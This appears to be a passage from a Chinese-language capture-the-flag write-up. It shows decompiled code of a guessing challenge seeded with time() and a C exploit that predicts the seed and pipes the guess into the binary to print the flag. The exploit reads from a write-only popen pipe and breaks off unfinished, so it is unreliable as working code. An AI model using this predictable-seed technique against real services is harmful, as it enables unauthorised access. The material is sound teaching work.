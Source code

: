 ```c
  {
    v0 = time(0LL); // 获取当前时间
    srand(v0); // 使用时间作为随机数种子
    v5 = rand() % 1000; // 生成一个随机数，取余 1000，范围在 0 到 999 之间
    printf("[+]guess what I think, hengheng~~~:"); // 提示用户猜测
    __isoc99_scanf("%d", &v2); // 从用户输入中读取猜测并存储到 v2 中

    if (v5 == v2) // 判断用户的猜测是否与随机数相等
    {
      puts("you get it! Let's get ready to be a real pwn master!!");
      system("cat flag"); // 如果猜对了，执行一个命令来获取标志（flag）
      return v6 - __readfsqword(0x28u); // 返回程序状态信息
    }
    
    printf("[!]enen, nono~, the number in my mind is %d, try again!\n", v5); // 如果猜错，提示用户再次尝试猜测
    
    if (++v3 == 5) // 如果用户连续猜错了 5 次
      puts("[!]Dawn!!!!! bro!M3"); // 输出警告消息
  }

  return v6 - __readfsqword(0x28u); // 返回程序状态信息
}

```
3. 理解程序，写exp（进入3门后，获取时间，做伪随机数，猜数）
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

int main() {
    // 使用相同的种子生成随机数
    time_t seed = time(NULL);
    srand((unsigned int)seed);
    int predicted_random_number = rand() % 1000;

    // 启动程序并与其进行交互
    FILE* program = popen("./pwn1", "w");

    // 发送门3的选择
    fprintf(program, "3\n");
    fflush(program);

    // 等待一段时间，如果程序要求等待2秒
    sleep(2);
    printf("%d\n", predicted_random_number);

    // 发送预测的答案给程序
    fprintf(program, "%d\n", predicted_random_number);
    fflush(program);

    // 读取程序的响应
    char buffer[1024];
    while (fgets(buffer, sizeof(buffer), program) != NULL) {
        printf("%s", buffer);
        if (strstr(buffer, "you get it!") != NULL) {
            pclose(program);
            return 0; // 停止程序
        }
    }

```
